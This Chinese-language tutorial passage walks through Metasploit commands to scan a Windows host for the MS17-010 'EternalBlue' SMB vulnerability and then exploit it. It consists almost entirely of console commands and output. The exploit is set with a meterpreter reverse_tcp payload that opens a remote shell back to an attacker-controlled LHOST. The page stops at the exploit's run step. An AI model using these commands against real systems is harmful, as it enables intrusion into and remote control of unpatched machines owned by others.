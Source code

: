 
##  通过meterpreter获取VNC会话

通过以下命令扫描目标机器是否有永恒之蓝漏洞：

```javascript
msf > use auxiliary/scanner/smb/smb_ms17_010 
msf auxiliary(smb_ms17_010) > set RHOSTS 192.168.222.136
RHOSTS => 192.168.222.136
msf auxiliary(smb_ms17_010) > options

Module options (auxiliary/scanner/smb/smb_ms17_010):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   CHECK_DOPU  true             yes       Check for DOUBLEPULSAR on vulnerable hosts
   RHOSTS      192.168.222.136  yes       The target address range or CIDR identifier
   RPORT       445              yes       The SMB service port (TCP)
   SMBDomain   .                no        The Windows domain to use for authentication
   SMBPass                      no        The password for the specified username
   SMBUser                      no        The username to authenticate as
   THREADS     1                yes       The number of concurrent threads

msf auxiliary(smb_ms17_010) > run

```

![](/img/hack/vnc/1507780072548.png)

当扫描出具有永恒之蓝漏洞的时候，通过msf的攻击模块攻击：

```javascript
msf auxiliary(smb_ms17_010) > use exploit/windows/smb/ms17_010_eternalblue
 
msf exploit(ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp

sf exploit(ms17_010_eternalblue) > set RHOST 192.168.222.136
RHOST => 192.168.222.136

msf exploit(ms17_010_eternalblue) > set LHOST 192.168.222.146
LHOST => 192.168.222.146

msf exploit(ms17_010_eternalblue) > run
```

